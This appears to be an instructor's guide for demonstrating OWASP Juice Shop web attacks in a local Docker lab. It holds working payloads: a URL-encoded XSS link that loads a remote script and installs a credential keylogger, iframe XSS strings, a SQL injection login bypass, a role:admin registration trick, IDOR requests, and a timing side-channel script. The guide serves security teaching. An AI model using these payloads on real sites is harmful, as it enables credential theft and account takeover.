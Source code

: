 ```yaml
---
layout: default
---
```


# Setup :cd:

Configure and run a custom docker-based instance of juice-shop:

```
sudo docker run -ti --init --rm  -p 3000:3000 -p 8080:80 hugopacheco/juice-shop-demo

# python only required for the Timing attack demo
sudo apt-get -y install python3-pip
pip3 install requests statistics argparse
```

Install [Google Chrome](https://www.google.com/chrome/) and its [WebSpy](https://chrome.google.com/webstore/detail/webspy-explore-and-test-w/aedipmheomnpcbgmanofhaccebgapije?hl=en) extension.

Open the locally-hosted Juice Shop website (http://localhost:3000) with Chrome.

## FAQ :scroll:

* For multiple demos, killing and relaunching the docker container shall reset all progress.
* If the timing delays in the timing attack demo are not noticeable, you may increase the delay in milliseconds for each product search by setting the flag `SEARCH_DELAY` before launching the container, e.g. `export SEARCH_DELAY=100` sets the delay to 100ms. 

# Examples :rocket:

You can demonstrate these in order, or select a few at will.

## Score Board challenge :star:

<details>
<summary>More info</summary>

This challenge serves to explain the structure of web pages and to demonstrate how Juice Shop challenges work:

1. Explain how to use the browser's `Developer Tools`.
2. Then show how to find the score-board by inspecting the HTML and JavaScript code of the frontpage.
3. You will find the `score-board` as a `path` defined in file `main.js`. Go to the page `http://localhost:3000/#/score-board`.
4. When you solve a Juice Shop challenge, the site will greet you with a green notification.
5. Show the gamified challenges on the scoreboard. Reinforce that interested students can try to solve more challenges at home.
</details>
<p></p>

<details>
<summary>Questions</summary>

1. Which is the link to the scoreboard?
2. Is it secure to hide information in a web page? :eyes:
</details>
<p></p>

## Zero Stars challenge :star:

<details>
<summary>More info</summary>

Start by showing the unsolved challenge in the scoreboard and read the hints. 

Explain how to use WebSpy (under `Developer Tools > Spy`) to monitor the requests made by the browser to the Juice Shop website. Argue why this is the modus-operandi of many hackers.
Then show how to submit a zero-star review:

1. Do a regular action: posting a new comment in the *Customer Feedback* page.
2. You may check that your comment actually appears in the *About Us* page.
3. Replay a similar request with WebSpy to `/api/Feedbacks`, this time with `rating:0`.
4. Note that you will have to change increment the captcha id from the previous request. The new captcha will be shown in the response to the latest `/rest/captcha` request, and reloaded in the web interface.
</details>
<p></p>

<details>
<summary>Questions</summary>

1. Which is the link to the scoreboard?
2. Is it secure to hide information in a web page? :man_technologist:
</details>
<p></p>

## XSS demo :link:

<details>
<summary>More info</summary>

Showcase the XSS demo (more detailed instructions [here](https://pwning.owasp-juice.shop/appendix/trainers.html)):

1. Open the keylogger at (http://localhost:8080/logger.php).
2. Open this [link](http://localhost:3000/#/search?q=%3Cimg%20src%3D%22bha%22%20onError%3D%27javascript%3Aeval%28%60var%20js%3Ddocument.createElement%28%22script%22%29%3Bjs.type%3D%22text%2Fjavascript%22%3Bjs.src%3D%22http%3A%2F%2Flocalhost%3A8080%2Fshake.js%22%3Bdocument.body.appendChild%28js%29%3Bvar%20hash%3Dwindow.location.hash%3Bwindow.location.hash%3D%22%23%2Fsearch%3Fq%3Dowasp%22%3BsearchQuery.value%20%3D%20%22owasp%22%3B%60%29%27%3C%2Fimg%3Eowasp) in a new tab to start the XSS attack. Explain why following malicious links is a very common scenario. Your page will run some malicious JS that plays music and shakes to its sound, while it installs a keylogger.
3. Login as an existing user and see that the credentials are being recorded to the keylogger.
4. Refresh the web page to unload the attack script.
</details>
<p></p>

## Timing attack demo :hourglass_flowing_sand:

<details>
<summary>More info</summary>

This is a demo on how subtle timing differences may allow us to recover hidden information. This is not an actual Juice Shop challenge, but is inspired by the Christmas Special challenge :star: :star:.

1. Open up WebSpy and find the backend search request. You may notice that, independently of the search query in the frontend, the backend request is always `/rest/products/search?q=` with an empty query. (Product filtering is happening by default in the JS side.)
2. You can nonetheless replay the request and fill in the `q` argument with your own search term.
3. This is particularly interesting for search terms for which there are **no apparent** products. For example, the Christmas Special challenge invites us to search for an hidden *Christmas special offer of 2014*. We can use WebSpy to search for two different terms such as `christmas` and `personal`; they both return an empty match, but is there a noticeable difference in the time of the request? It does seem so...
4. After all, the server may take an arbitrary time to respond. We can further support our suspicions by repeating the same requests multiple times and checking if there is still a significant difference in the average times. Download this Python [script](demo/xs-search.py) to automate the search. Then run the script for our two search terms; you shall get something like this:

```
% python3 xs-search.py christmas
Namespace(QUERY='christmas', n=10, t='runtime', nextchar=None, host=['localhost:3000'])
<Response [200]>
{"status":"success","data":[]}
christmas 0.03077825400000438
```

```
% python3 xs-search.py personal
Namespace(QUERY='personal', n=10, t='runtime', nextchar=None, host=['localhost:3000'])
<Response [200]>
{"status":"success","data":[]}
christmas 0.007031379100000438
```

Why does `christmas` take longer than `personal`? Probably because the server is taking more time to compare the search term and prepare the results for products that exist, than for products that do not exist.

5. There does seem to exist some product with the word `christmas` in its name. How can we find its full name? We need to find more characters before and/or after the word `christmas`. An idea is to attempt several characters, and check if there is a measurable time difference. In the script, we are trying characters from `a` to `z` and from `0` to `9`; other special characters are captured by the `_` wildcard. We can configure this to search for a character before or after:

```
% python3 xs-search.py christmas --nextchar before
Namespace(QUERY='christmas', n=10, t='runtime', nextchar='before', host='localhost:3000')
christmasa 0.006191999999980908
christmasb 0.005347312500001863
...
christmas_ 0.004923229000007268
```

All characters seem to take roughly the same amount of time. This suggests that there is no character appearing before `christmas` in our hidden product.

```
% python3 xs-search.py christmas -nextchar after
Namespace(QUERY='christmas', n=10, t='runtime', nextchar='after', host=['localhost:3000'])
christmasa 0.008081472499761731
christmasb 0.008309272999875248
...
christmas_ 0.029330530500039458
```

It seems that the `_` wildcard takes longer, hence the next character after `christmas` is neither a letter nor a number, but it does seem to exist.

We can repeat this process one character at a time:

```
% python3 xs-search.py christmas_ --nextchar after
Namespace(QUERY='christmas_', n=10, t='runtime', nextchar='after', host=['localhost:3000'])
christmas_a 0.006253162499982864
...
christmas_s 0.029131466499995443
...
christmas__ 0.028724410000257196
```

It seems that `s` takes longer (actually, the same as the `_` wildcard which always matches), hence the word `christmas_s` is in the name of our product.

You can repeat this process 35 times, until a new specific character cannot be singled out. The name of the actual hidden product is `Christmas Super-Surprise-Box (2014 Edition)`. We are not trying to find all the characters to avoid searching a larger character space and to avoid mentioning special HTML character encodings.

</details>
<p></p>

## Confidential Document challenge :star:

<details>
<summary>More info</summary>

1. Check the *About Us* page and follow the linked FTP file (`/ftp/legal.md`).
2. Replay the request with WebSpy to list the parent directory (`/ftp/`).
3. Find the `acquisitions.md` file in the response a get the confidential file (`/ftp/acquisitions.md`)..
</details>
<p></p>

## DOM XSS challenge :star:

<details>
<summary>More info</summary>

1. Paste the JS script from the challenge (`<iframe src="javascript:alert(`xss`)">`) in the search field.
2. You will immediately see a XSS popup.
</details>
<p></p>

## Reflected XSS challenge :star: :star:

<details>
<summary>More info</summary>

1. Create some user and login.
2. Order some product (add some product to the basket, checkout, fill out all the payment information and place order), visit the *Order History* page and click *Track Order* on your order.
3. The link of your product's order information will have the structure `/#/track-result/new?id=7cb0-dd30e23740d08c54`
3. Attack the orders search feature by replacing your order id with the JS script from the challenge (`<iframe src="javascript:alert(`xss`)">`). You may need to refresh the page for the script to be actually executed.
</details>
<p></p>

## Admin Registration challenge :star: :star: :star:

<details>
<summary>More info</summary>

1. Register a new user and inspect the request/response in WebSpy.
2. Inspect the fields of the response, you shall see a field `role: customer`
3. Replay the request with `role:admin` to register a new user with admin privileges. Make sure to register a new user; registering a repeated user issues an error.
</details>
<p></p>

## Admin Section challenge :star: :star:

<details>
<summary>More info</summary>

1. You need to be logged in as a user with admin privileges (from previous challenge)
2. Find the admin page by inspecting the HTML and JavaScript using the Developer Tools.
3. You will find the `administration` page as a `path` defined in file `main.js`.
</details>
<p></p>

## Forged Review challenge :star: :star: :star:

<details>
<summary>More info</summary>

1. Submit a new review for some product, while logged in, and replay it with WebSpy.
2. Try changing the author information (the `author` field in the request is just a string, the user doesn't even need to be valid).
</details>
<p></p>

## Forged Feedback challenge :star: :star: :star:

<details>
<summary>More info</summary>

1. Submit a new comment in the *Customer Feedback* page, while logged in, and replay it with WebSpy.
2. Try changing the user information (changing the `UserId` field to some other random user id, e.g. `1`; the user's name in the comment is just a string unrelated to the actual user id).
</details>
<p></p>

##  View Basket challenge :star: :star:

<details>
<summary>More info</summary>

1. View your basket and replay the request with WebSpy for a different user. You may notice that the user id appears in the request link (`/rest/basket/<id>`).
2. Replay the request with WebSpy for some other user id (e.g., `1`).
</details>
<p></p>

## Login Admin challenge :star: :star:

<details>
<summary>More info</summary>

You can also try to break authentication by demonstrating how SQL injection works:

1. Search for user account name in the *About Us* page. You may notice that there are a few `****@juice-sh.op` accounts.
2. Since we trying to login as special user named admin, a good guess is to assume that his account name will be `admin@juice-sh.op`.
3. Go to the login page and demonstrate the SQL injection by typing `admin@juice-sh.op' --` in the `username` field and anything in the `password` field.
4. You may confirm that this user actually has administrator privileges by going to the `/#/administration` page.
</details>
<p></p>




